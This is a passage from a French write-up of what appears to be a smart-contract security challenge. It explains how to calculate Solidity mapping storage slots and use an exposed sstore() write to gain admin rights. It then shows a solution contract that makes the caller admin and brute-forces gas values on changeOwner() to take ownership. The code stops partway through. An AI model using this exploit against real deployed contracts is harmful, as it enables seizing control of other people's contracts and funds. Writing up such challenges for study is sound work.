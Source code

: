 Il s'affiche ensuite en dessous dans la partie `Deployed Contracts`.
Le but est de devenir owner du contrat. On voit une fonction `getOwner()` en visibilité public : en l'appelant on récupère owner actuel qui n'est évidemment pas notre adresse de wallet.

### Analyse du code

Nous devons dans un premier temps réussir à déployer notre instance du contrat `WriterTarget`. Pour ce faire nous devons devenir admin du contrat. Cette information est stocké dans le mapping `s_userPerSiteIsAdmin`.

Nous avons accès à une fonction assembleur `sstore()` qui permet de réécrire dans le storage du contrat. Nous allons l'utiliser pour inscrire notre adresse dans le mapping en admin.

Pour ce faire, nous devons calculer l'emplacement (le Slot) du storage où cette information est et sera stocké.

Exemple :

```js
mapping(uint256 => uint256) public stockage;

/**
 * Pour écrire dans stockage[5] le nombre 10
 * soit stockage[5] = 10
 *
 * La déclaration du mapping est au Slot 0
 * Le premier argument de la fonction sstore est l'emplacement (slot) de la donnée. Il est calculé comme ça pour notre cas :
 * uint256 x = uint256(keccak256(abi.encode(5, 0)));
 * Le deuxième argument est la data qu'on veut inscrire, ici 10.
 * uint256 data = 10;
 *
 * Appel de la fonction sstore() :
 * sstore(x, data)
 *
 * Si nous regardons ce que storage[5] contient, il contiendra 10.
 *
 * Pour un mapping de mapping, il faut faire la même chose mais deux fois. Une fois qu'on a calculé l'emplacement du mapping de mapping, on appelle la fonction sstore().
```

Voici le contrat de solution avec pour devenir admin :

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Writer.sol";

contract WriterSolution {
    Writer writer;

    constructor(address writerAddress) {
        writer = Writer(writerAddress);
    }

    function becomeAdmin() external {
        uint256 x = uint256(keccak256(abi.encode(0, 3)));
        writer.write(uint256(keccak256(abi.encode(address(msg.sender), x))), true);
    }

    function takeOwnership() external {
        address targetAddress = writer.getWriterTargetInstanceAddress();
        for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = targetAddress.call{gas: i + (7743 * 3)}(abi.encodeWithSignature("changeOwner()"));
            if (success) {
```